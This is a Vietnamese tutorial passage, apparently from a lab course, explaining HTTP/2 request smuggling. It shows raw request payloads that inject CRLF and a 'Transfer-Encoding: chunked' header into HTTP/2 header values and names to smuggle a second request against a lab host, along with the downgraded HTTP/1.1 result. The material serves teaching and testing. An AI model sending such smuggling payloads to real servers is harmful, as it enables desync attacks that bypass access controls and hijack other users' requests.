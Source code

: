 ```http
:method POST
:path /
:authority http2.htb
:scheme http
dummy asd\r\nTransfer-Encoding: chunked
0
GET /smuggled HTTP/1.1
Host: http2.htb
```

Trong yêu cầu này, giá trị của header `dummy` chứa chuỗi `asd\r\nTransfer-Encoding: chunked`. Do CRLF không có ý nghĩa đặc biệt trong HTTP/2, reverse proxy sẽ chuyển đổi nó thành các header HTTP/1.1 khác nhau sau khi xử lý, chẳng hạn như:

```http
POST / HTTP/1.1
Host: http2.htb
Dummy: asd
Transfer-Encoding: chunked
Content-Length: 48
0
GET /smuggled HTTP/1.1
Host: http2.htb
```

Kết quả là, yêu cầu HTTP/1.1 có hai header: `Dummy` và `Transfer-Encoding`, và vì `Transfer-Encoding` có độ ưu tiên cao hơn `Content-Length` trong HTTP/1.1, web server sẽ xử lý yêu cầu đầu tiên là sử dụng **chunked encoding**, qua đó tạo ra lỗ hổng **H2.TE**.

### 2. **Tạo Header Name Injection (Chèn Tên Header)**

Tương tự, nếu reverse proxy không kiểm tra đúng các tên header HTTP/2 trước khi chuyển đổi yêu cầu sang HTTP/1.1, chúng ta có thể tạo ra một yêu cầu HTTP/2 như sau:

```http
:method POST
:path /
:authority http2.htb
:scheme http
dummy: asd\r\nTransfer-Encoding: chunked
0
GET /smuggled HTTP/1.1
Host: http2.htb
```

Trong trường hợp này, header `dummy` chứa ký tự CRLF (`\r\n`) giữa tên header và giá trị, gây ra sự phân tách giữa các header khi chuyển đổi sang HTTP/1.1:

```http
POST / HTTP/1.1
Host: http2.htb
Dummy: asd
Transfer-Encoding: chunked
Content-Length: 48
0
GET /smuggled HTTP/1.1
Host: http2.htb
```
